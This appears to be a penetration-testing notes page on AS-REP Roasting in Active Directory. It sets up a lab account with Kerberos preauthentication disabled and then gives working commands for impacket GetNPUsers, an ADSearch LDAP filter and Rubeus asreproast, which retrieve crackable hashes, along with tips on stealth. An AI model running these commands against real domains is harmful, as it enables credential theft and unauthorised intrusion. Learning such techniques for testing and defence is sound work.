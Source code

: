 # Active Directory Attacks

## AS-REP Roasting

This attack is possible due to Kerberos PRE-AUTH is disabled on the specific domain account.

### Attack Simulation

To simulate this attack, we will be using user Sam Walker, go to your DC and Sam Walker's user property.

Under the Account tab, tick the "**Do not require Kerberos preauthentication**" options and apply the changes.

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/TbRUojmPWFY0NjFn-image.png" alt=""><figcaption></figcaption></figure>

### Running Attack

#### **On linux:**

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile users -format john -dc-ip 10.10.10.161
```

***

#### **On windows:**

{% hint style="info" %}
If the steps below doesn't work, try running them again with a NT AUTHORITY\SYSTEM privilege shell.
{% endhint %}

For a stealthier attack, we will first try to find account with the preauthentication option checked. [ADSearch](https://github.com/Flangvik/SharpCollection) is a great tool for this.

```shell
ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/UJDsFhnR7dzLtXD8-image.png" alt=""><figcaption></figcaption></figure>

_userAccountControl:1.2.840.113556.1.4.803:=4194304_ <= **4194304** is the decimal value for **DONT\_REQ\_PREAUTH**

For more information about the userAccountControl attribute, refer to [https://eddiejackson.net/wp/?p=16387](https://eddiejackson.net/wp/?p=16387)

Now that we get which user has the attribute checked, we can do the roasting with [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries).

```shell
Rubeus.exe asreproast /user:swalker /nowrap
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/qCTEt0QtIejVF6xW-image.png" alt=""><figcaption></figcaption></figure>

You can now crack the hash using hashcat or john.

If you don't care about the noises generated while running the attack, you can also just do AS-REP roasting with Rubeus without specifying a user. It will attempt to roast all users and will return the result for any successfully retrieved hash.\
